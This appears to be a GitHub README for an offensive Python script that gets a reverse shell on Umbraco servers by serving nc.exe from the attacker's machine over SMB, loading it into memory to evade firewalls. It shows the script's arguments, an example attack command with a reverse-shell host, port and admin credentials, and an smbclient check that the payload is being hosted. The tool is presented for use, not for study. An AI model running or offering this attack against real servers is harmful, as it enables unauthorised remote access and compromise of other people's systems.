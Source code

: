 # Easy-embraco-SMB

## What's it for?
Script is used to gain an easy reverse shell on servers running embraco and have SMB enabled. To escape firewall, calling our nc.exe executable from a remote destiation (our machine) will allow us to load the application into memory on the server side without having the need to install anything.

## Command line arguments
Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT] [--load LOAD] --user USER --passw PASSW

optional arguments:\
  \-h, \-\-help            show this help message and exit\
  \--target TARGET, \-t TARGET Target IP address\
  \--host HOST, \-x HOST  IP for reverse shell\
  \--port PORT, \-p PORT  Port for reverse shell\
  \--load LOAD, \-l LOAD  Path to file or script to provide to the public\
  \--user USER, \-P USER  User name for Umbraco\
  \--passw PASSW, \-U PASSW  Password for Umbraco\


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe

## Confirmation SMB is hosting our nc.exe file
sudo smbclient -H \\\\127.0.0.1\\share\

smb: \> dir\
  .      \
  ..     \
  nc.exe 

